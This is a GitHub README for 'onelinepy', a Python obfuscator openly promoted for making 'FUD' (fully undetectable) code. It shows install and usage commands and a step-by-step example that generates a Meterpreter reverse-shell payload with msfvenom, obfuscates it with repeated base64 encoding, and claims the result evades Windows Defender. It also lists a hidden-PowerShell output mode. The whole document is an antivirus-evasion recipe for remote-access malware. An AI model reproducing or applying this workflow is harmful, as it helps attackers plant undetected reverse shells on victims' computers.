

# onelinepy
## Python Obfuscator for FUD Python Code.



### Download & Run

```sh
git clone https://github.com/spicesouls/onelinepy
cd onelinepy
chmod +x setup.sh
./setup.sh
onelinepy
```

### Usage Guide

<pre>
<b>              _ _                 </b>
<b>  ___ ___ ___| |_|___ ___</b><font color="#FFE82C"><b> ___ _ _</b></font>
<b> | . |   | -_| | |   | -_</b><font color="#FFE82C"><b>| . | | |</b></font><b>     </b><font color="#FFE82C"><b>Python</b></font>
<b> |___|_|_|___|_|_|_|_|___</b><font color="#FFE82C"><b>|  _|_  |</b></font><b>     </b><font color="#729FCF"><b>Obfuscator</b></font>
<b>                         </b><font color="#FFE82C"><b>|_| |___|</b></font>

<b>usage: oneline.py [-h] [-m M] [-i I] [--script SCRIPT] [--code CODE] [--list] [--output OUTPUT]</b>

<b>optional arguments:</b>
<b>  -h, --help       show this help message and exit</b>
<b>  -m M             Obfuscating Method (i.e, -m /one_line/base64)</b>
<b>  -i I             Iterations For Obfuscation.</b>
<b>  --script SCRIPT  File path of Python file to Obfuscate.</b>
<b>  --code CODE      Python code to Obfuscate.</b>
<b>  --list           List Obfuscating Methods.</b>
<b>  --output OUTPUT  Output File.</b>
</pre>

### Example: Creating FUD Meterpreter Python Payload

1. Generate Python Payload:

`msfvenom --payload python/meterpreter_reverse_http LHOST=... LPORT=... > payload.txt`

2. Obfuscate Payload

`onelinepy -m /one_line/base64 --script payload.txt -i 3 --output obfuscated_payload.txt`

3. Profit! The Obfuscated Payload works against Windows Defender.

### More Examples

```sh
onelinepy -m /one_line/base64 --script payload.py -i 3
```

```sh
onelinepy -m /one_line/hex --code "print('HEX!')"
```

### Obfuscation Method List

<pre><b>              _ _                 </b>
<b>  ___ ___ ___| |_|___ ___</b><font color="#FFE82C"><b> ___ _ _</b></font>
<b> | . |   | -_| | |   | -_</b><font color="#FFE82C"><b>| . | | |</b></font><b>     </b><font color="#FFE82C"><b>Python</b></font>
<b> |___|_|_|___|_|_|_|_|___</b><font color="#FFE82C"><b>|  _|_  |</b></font><b>     </b><font color="#729FCF"><b>Obfuscator</b></font>
<b>                         </b><font color="#FFE82C"><b>|_| |___|</b></font>


<b>  Obfuscators ( * = May cause Syntax Errors )</b>
<b> -=============-</b>
<b> 0</b>	<b>/one_line/hex</b>
<b> 1</b>	<b>/one_line/base64</b>
<b> 2</b>	<b>/one_line/base32</b>
<b> 3</b>	<b>/one_line/gunzip*</b>
<b> 4</b>	<b>/one_line/rot13*</b>
<b> 5</b>	<b>/cmd/command</b>
<b> 6</b>	<b>/cmd/powershell</b>
<b> 7</b>	<b>/cmd/powershellhidden</b></pre>
